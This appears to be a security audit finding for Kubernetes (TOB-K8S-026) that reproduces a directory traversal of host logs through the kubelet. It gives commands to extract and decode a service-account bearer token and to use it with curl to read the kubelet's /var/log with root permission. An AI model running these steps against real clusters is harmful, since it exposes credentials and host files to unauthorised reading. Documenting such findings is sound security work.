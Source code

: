 # kubernetes-TOB-K8S-026
Directory traversal of host logs running kube-apiserver and kubelet

```
AWS_PROFILE=testing kubectl get secret
NAME                  TYPE                                  DATA      AGE
<token-name>  kubernetes.io/service-account-token   X         XXXd
```
```
AWS_PROFILE=testing kubectl get secret <token-name> -o json | jq -Mr '.data.token' | base64 -d
```

The output from previous command is the Bearer token. Put it under $MY_TOKEN below. Go to your K8s Node

```
curl -k -H "Authorization: Bearer $MY_TOKEN" "https://<node-ip>:10250/logs/"
```

And you should see /var/log with it subdirectories on the kubelet. You can enter directories and read with permission of root.
